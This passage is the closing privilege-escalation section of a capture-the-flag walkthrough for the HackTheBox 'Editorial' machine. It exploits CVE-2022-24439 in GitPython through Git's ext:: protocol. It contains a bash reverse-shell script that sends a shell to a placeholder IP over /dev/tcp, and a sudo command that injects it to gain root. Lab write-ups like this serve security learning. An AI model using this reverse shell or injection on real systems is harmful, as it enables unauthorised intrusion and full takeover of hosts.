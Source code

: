 Using `pip3 list` we find the list of all Python packages installed on the system. `GitPython` immidiately stands out, it is running version `3.1.29`.

![installed python packages list](/images/HTB-Editorial/python_pkg_list.png)

Researching about vulnerabilities for this version we find [CVE-2022-24439](https://github.com/PyCQA/bandit/issues/971) with a PoC [here](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

The exploit leverages the `ext::` protocol in Git which allows users to use external commands instead of standard protocol such as `https` and `ssh`, with this we can achieve a command injection.

Let's use a bash script in order to get a reverse shell as `root`.

We create `revshell.sh` and make it executable with `chmod +x revshell.sh`.

```bash
#!/bin/bash

IP="YOUR_IP"  
PORT="PORT_NUMBER"

/bin/bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

Then we run the command below to get a root shell on our listener enabling us to read the root flag in `/root`.

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::/tmp/revshell.sh'
```

![Reverse shell trigger](/images/HTB-Editorial/git_script_ext.png)

![Editorial root flag](/images/HTB-Editorial/root_flag_editorial.png)

I appreciate you taking the time to read this write up, keep learning!
